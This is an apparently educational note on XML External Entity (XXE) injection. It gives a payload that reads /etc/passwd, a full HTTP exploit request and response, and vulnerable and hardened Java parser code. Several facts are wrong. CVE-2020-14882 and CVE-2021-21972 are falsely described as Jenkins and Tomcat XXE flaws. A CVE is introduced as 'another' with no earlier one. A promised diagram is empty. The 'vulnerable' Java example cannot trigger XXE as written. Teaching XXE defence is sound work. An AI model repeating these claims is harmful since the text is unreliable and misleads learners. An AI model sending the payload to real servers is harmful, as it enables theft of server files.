

## Detailed Explanation of XXE Injection

### Background Theory

XML is a markup language used to encode documents in a format that is both human-readable and machine-readable. XML documents consist of elements, attributes, and text content. Entities are placeholders that can be defined within an XML document and later replaced with actual content.

#### XML Entities

Entities in XML can be either internal or external. Internal entities are defined within the document and are used to replace text within the document. External entities, on the other hand, reference content outside the document. External entities can be defined using the `<!ENTITY>` declaration.

#### Example of XML Entities

```xml
<!DOCTYPE root [
  <!ENTITY example "Hello, World!">
]>
<root>
  <message>&example;</message>
</root>
```

In this example, the entity `&example;` is replaced with the string "Hello, World!".

### XXE Injection Mechanics

#### Exploiting External Entities

To exploit an XXE vulnerability, an attacker can inject malicious XML input that defines and references external entities. These entities can point to sensitive files on the server or perform other actions.

#### Example of Malicious XML Input

```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <message>&xxe;</message>
</root>
```

In this example, the entity `&xxe;` references the `/etc/passwd` file on the server. When the XML parser processes this input, it will attempt to read the contents of the `/etc/passwd` file and include it in the output.

### Real-World Example: CVE-2019-1010156

CVE-2019-1010156 is another example of an XXE vulnerability affecting the Apache OFBiz framework. This vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML input.

### XXE Injection Attack Chain

#### Step-by-Step Mechanics

1. **Inject Malicious XML**: The attacker injects XML input that defines and references external entities.
2. **Parse XML**: The application's XML parser processes the input and resolves the external entities.
3. **Read Sensitive Files**: The parser attempts to read the contents of the referenced files and includes them in the output.
4. **Exploit Vulnerability**: Depending on the context, the attacker can use the exposed information to further compromise the system.

#### Mermaid Diagram: XXE Attack Chain



### Common Pitfalls and Mistakes

#### Lack of Validation and Sanitization

One of the most common mistakes is failing to validate and sanitize XML input. Applications should ensure that XML input does not contain any external entity declarations.

#### Improper Configuration of XML Parsers

Another common mistake is improper configuration of XML parsers. Many XML parsers have options to disable the processing of external entities. Applications should configure parsers to disallow external entity processing.

### Recent Real-World Examples

#### CVE-2020-14882

CVE-2020-14882 is an XXE vulnerability affecting the Jenkins Continuous Integration server. This vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML input.

#### CVE-2021-21972

CVE-2021-21972 is another XXE vulnerability affecting the Apache Tomcat server. This vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML input.

### Full HTTP Example

#### Vulnerable Code

Consider an application that processes XML input and returns the processed output:

```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class VulnerableApp {
    public static void main(String[] args) throws Exception {
        String xmlInput = "<root><message>&xxe;</message></root>";
        DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
        DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
        Document doc = dBuilder.parse(new java.io.ByteArrayInputStream(xmlInput.getBytes()));
        System.out.println(doc.getTextContent());
    }
}
```

#### Exploited Code

An attacker can inject malicious XML input to read the `/etc/passwd` file:

```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <message>&xxe;</message>
</root>
```

#### Full HTTP Request and Response

```http
POST /processXML HTTP/1.1
Host: example.com
Content-Type: application/xml

<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <message>&xxe;</message>
</root>

HTTP/1.1 200 OK
Content-Type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

### How to Prevent / Defend Against XXE Injection

#### Detection

Applications should monitor for suspicious XML input that contains external entity declarations. Logging and alerting mechanisms can help detect potential XXE attacks.

#### Prevention

1. **Disable External Entity Processing**: Configure XML parsers to disallow external entity processing.
2. **Validate and Sanitize Input**: Ensure that XML input does not contain any external entity declarations.
3. **Use Secure Libraries**: Use libraries that are known to handle XML securely.

#### Secure Coding Fixes

##### Vulnerable Code

```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class VulnerableApp {
    public static void main(String[] args) throws Exception {
        String xmlInput = "<root><message>&xxe;</message></root>";
        DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
        DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
        Document doc = dBuilder.parse(new java.io.ByteArrayInputStream(xmlInput.getBytes()));
        System.out.println(doc.getTextContent());
    }
}
```

##### Secure Code

```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class SecureApp {
    public static void main(String[] args) throws Exception {
        String xmlInput = "<root><message>&xxe;</message></root>";
        DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
        dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
        Document doc = dBuilder.parse(new java.io.ByteArrayInputStream(xmlInput.getBytes()));
        System.out.println(doc.getTextContent());
    }
}
```

#### Configuration Hardening

##### XML Parser Configuration

```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class SecureApp {
    public static void main(String[] args) throws Exception {
        String xmlInput = "<root><message>&xxe;</message></root>";
        DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
        dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        dbFactory.setXIncludeAware(false);
        dbFactory.setExpandEntityReferences(false);
        DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
        Document doc = dBuilder.parse(new java.io.ByteArrayInputStream(xmlInput.getBytes()));
        System.out.println(doc.getTextContent());
    }
}
```

### Hands-On Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive course on XXE injection with interactive labs.
- **OWASP Juice Shop**: A deliberately insecure web application that includes XXE injection challenges.
- **DVWA (Damn Vulnerable Web Application)**: Contains XXE injection vulnerabilities for educational purposes.

These labs provide a safe environment to practice and understand XXE injection attacks and defenses.

---
<!-- nav -->
[[14-Detailed Example Online Store Check Stock Functionality|Detailed Example Online Store Check Stock Functionality]] | [[Web Security (PortSwigger)/08-XXE Injection/01-XXE Injection Complete Guide/00-Overview|Overview]] | [[16-External Entity Injection (XXE)|External Entity Injection (XXE)]]
